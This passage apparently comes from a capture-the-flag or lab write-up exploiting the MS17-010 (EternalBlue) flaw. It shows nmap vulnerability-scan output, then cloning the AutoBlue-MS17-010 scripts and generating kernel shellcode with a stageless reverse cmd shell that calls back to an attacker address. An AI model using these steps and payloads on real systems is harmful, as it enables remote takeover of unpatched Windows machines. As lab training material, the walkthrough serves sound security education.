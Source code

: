     |     References:
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

    Nmap done: 1 IP address (1 host up) scanned in 18.93 seconds



## System Shell

### AutoBlue

This time, I decided to give the
[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010) scripts a try.
It's a neat system that walks you through shellcode generation and
standing up listeners.

I'll clone the repo into `/opt`:



    root@kali# git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git            
    Cloning into 'AutoBlue-MS17-010'...                                              
    remote: Enumerating objects: 1, done.                                                                     
    remote: Counting objects: 100% (1/1), done.                                           
    remote: Total 72 (delta 0), reused 0 (delta 0), pack-reused 71
    Unpacking objects: 100% (72/72), done.



Next I'll prep shellcode, answering the prompts:



    root@kali# ./shell_prep.sh                  
                     _.-;;-._                                                    
              '-..-'|   ||   |                                                   
              '-..-'|_.-;;-._|                                                   
              '-..-'|   ||   |                                                       
              '-..-'|_.-''-._|                                                   
    Eternal Blue Windows Shellcode Compiler                                      
                                                                                 
    Let's compile them windoos shellcodezzz                                      
                                                                                 
    Compiling x64 kernel shellcode                                                                      
    Compiling x86 kernel shellcode                                                   
    kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
    Y                                                     
    LHOST for reverse connection:                                          
    10.254.1.47                                                
    LPORT you want x64 to listen on:                           
    443
    LPORT you want x86 to listen on:
    445
    Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
    1                                               
    Type 0 to generate a staged payload or 1 to generate a stageless payload
    1                                       
    Generating x64 cmd shell (stageless)...    
